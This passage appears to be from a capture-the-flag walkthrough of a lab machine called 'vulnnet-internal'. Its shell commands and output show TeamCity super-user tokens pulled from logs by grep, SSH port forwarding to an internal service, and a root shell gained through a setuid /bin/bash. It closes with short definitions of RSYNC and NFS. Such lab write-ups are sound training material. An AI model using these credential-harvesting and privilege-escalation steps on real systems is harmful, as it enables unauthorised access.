.mozilla/firefox/jftj8bb8.default/pkcs11.txt:parameters=configdir='sql:/home/sys-internal/.mozilla/firefox/jftj8bb8.default' certPrefix='' keyPrefix='' secmod='secmod.db' flags=optimizeSpace updatedir='' updateCertPrefix='' updateKeyPrefix='' updateid='' updateTokenDescription=''  manufacturerID='Mozilla.org' libraryDescription='PSM Internal Crypto Services' cryptoTokenDescription='Generic Crypto Services' dbTokenDescription='Software Security Device' cryptoSlotDescription='PSM Internal Cryptographic Services' dbSlotDescription='PSM Private Keys' FIPSSlotDescription='FIPS 140 Cryptographic, Key and Certificate Services' FIPSTokenDescription='Software Security Device (FIPS)' minPS=0
Binary file .mozilla/firefox/jftj8bb8.default/storage/default/https+++linuxize.com/cache/morgue/55/{e69a1002-405a-475c-959f-b08964171f37}.final matches
Binary file .mozilla/firefox/jftj8bb8.default/gmp-gmpopenh264/1.7.1/libgmpopenh264.so matches

sys-internal@vulnnet-internal:~$ grep -iR 'Token' /TeamCity/logs/ 2>/dev/null
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 5853539056608230756 (use empty username with the token as the password to access the server)

sys-internal@vulnnet-internal:~$ 

```

> **SSH Port Forwarding Phase**
> 

`sudo ssh sys-internal@10.10.6.118 -i id_rsa -L 8111:127.0.0.1:8111`

```powershell
sys-internal@vulnnet-internal:~$ 
```



> **Privilege Escalation with Internal Logic**
> 


**CREDENTIAL:**

```powershell
5853539056608230756
```


```powershell
sys-internal@vulnnet-internal:~$ ls -lsa /bin/bash
1088 -rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash

sys-internal@vulnnet-internal:~$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(sys-internal) gid=1000(sys-internal) euid=0(root) groups=1000(sys-internal),24(cdrom)
bash-4.4# 

```

# Appendix

## Remote Synchronization (RSYNC)

<aside>
💡

RSYNC is a fast and versatile command-line utility for file synchronization and transfer. It is widely used in Unix-like operating systems and is particularly valued for its efficiency and flexibility. RSYNC allows users to copy files and directories between local and remote systems while minimizing data transfer by synchronizing only the differences between source and destination.

</aside>

## NFS (Network File System)

<aside>
💡

NFS (Network File System) is a distributed file system protocol that allows users to access files over a network as if they were located on their local machines. It was developed by Sun Microsystems in 1984 and is widely used in Linux and Unix-based systems, though implementations exist for other operating systems as well.

</aside>